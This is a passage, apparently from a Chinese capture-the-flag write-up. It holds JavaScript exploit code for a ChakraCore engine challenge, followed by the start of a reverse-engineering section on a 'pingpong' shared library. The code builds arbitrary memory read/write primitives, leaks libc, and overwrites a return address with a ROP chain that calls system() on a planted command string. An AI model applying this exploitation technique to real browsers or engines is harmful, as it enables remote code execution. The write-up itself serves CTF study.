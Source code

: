 ```
function setaddr(val64)
{
seg[48] = loword(val64);
seg[49] = hiword(val64);
return;
}
function read64(addr)
{
setaddr(addr);
return makeqword(fdv.getInt32.call(karr3, 0, true), fdv.getUint32.call(karr3, 4, true));
}
function write64(addr, val64)
{
setaddr(addr);
fdv.setInt32.call(karr3, 0, loword(val64), true);
fdv.setInt32.call(karr3, 4, hiword(val64), true);
}
var libc_leak = read64(chakra_base + 0xcc80f0);
console.log("libc_leak = 0x" + libc_leak.toString(16));
var libc_base = libc_leak - 0x83940;
console.log("libc_base = 0x" + libc_base.toString(16));
var environ = read64(libc_base + 0x3c5f38);
console.log("environ = 0x" + environ.toString(16));
var ret_addr = environ - 248;
var system = libc_base + 0x45390;
var poprdi_ret = libc_base + 0x21102;
var bss = libc_base + 0x3c8200;
var exit = libc_base + 0x3a030
//ls -la
//write64(bss, 0x2d20736c);
//write64(bss+4, 0x2020616c);
//./execMe_plz
//5f706c7a
write64(bss, 0x78652f2e);
write64(bss+4,0x654d6365);
write64(bss+8,0x7a6c705f);
console.log("writing rop chain");
write64(ret_addr, poprdi_ret);
write64(ret_addr+8, bss);
write64(ret_addr+16, system);
write64(ret_addr+24, exit);
//write64(0x1, 0x0);
console.log("Done!");
```



**RE**

**pingpong**

patch so中的sleep函数后，循环调用其中的ping，pong函数1000000次即可，核心代码如下：
